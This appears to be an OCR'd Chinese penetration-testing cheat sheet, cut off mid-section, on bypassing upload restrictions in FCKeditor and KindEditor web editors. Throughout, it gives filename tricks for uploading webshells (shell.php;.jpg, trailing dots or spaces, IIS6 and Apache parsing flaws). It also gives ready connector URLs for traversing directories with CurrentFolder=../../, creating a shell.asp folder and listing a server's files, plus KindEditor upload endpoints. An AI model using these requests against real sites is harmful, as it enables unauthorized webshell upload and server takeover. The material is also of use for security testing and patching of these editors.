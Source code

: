        

**FCKeditor 文件上传.变\_下划线的绕过方法**

很多时候上传的文件例如：shell.php.rar 或shell.php;.jpg 会变为shell\_php;.jpg 这是新版FCK 的变化

提交shell.php+空格绕过，不过空格只支持win 系统 \*nix 是不支持的\[shell.php 和shell.php+空格是2 个不同的文件 未测试

继续上传同名文件可变为shell.php;(1).jpg 也可以新建一个文件夹，只检测了第一级的目录，如果跳到二级目录就不受限制

**Version 2.4.1 测试通过**

修改CurrentFolder 参数使用 …/…/ 来进入不同的目录

    /browser/default/connectors/aspx/connector.aspx?Command=CreateFolder&Type=Image&CurrentFolder=../../..%2F&NewFolderName=shell.asp
    
        

**根据返回的XML 信息可以查看网站所有的目录**

    FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=%2F
    
        

**也可以直接浏览盘符**：-
**JSP 版本**：

    FCKeditor/editor/filemanager/browser/default/connectors/jsp/connector?Command=GetFoldersAndFiles&Type=&CurrentFolder=%2F
    
        

**Fckeditor 2.0 <= 2.2**

允许上传asa、cer、php2、php4、inc、pwml、pht 后缀的文件上传后它保存的文件直接用的`$sFilePath = $sServerDir . $sFileName`，而没有使用`$sExtension`为后缀.直接导致在windows下在上传文件后面加个.来突破（这里点点很重要）

而在apache 下，因为"Apache 文件名解析缺陷漏洞"也可以利用之，另建议其他上传漏洞中定义TYPE 变量时使用File 类别来上传文件,根据FCKeditor 的代码，其限制最为狭隘

在上传时遇见可直接上传脚本文件固然很好，但有些版本可能无法直接上传可以利用在文件名后面加.点或空格绕过，也可以利用iis6 解析漏洞建立xxx.asp文件夹或者上传`xx.asp;.jpg`

参考文章：

    https://www.cnblogs.com/zpchcbd/p/11745119.html
    
        

* * *

##### KindEditor

**上传页面**

    kindeditor/asp/upload_json.asp?dir=file
     
    kindeditor/asp.net/upload_json.ashx?dir=file
     
    kindeditor/jsp/upload_json.jsp?dir=file
     
    kindeditor/php/upload_json.php?dir=file
    
        

上传思路-
kindeditor<=4.1.5
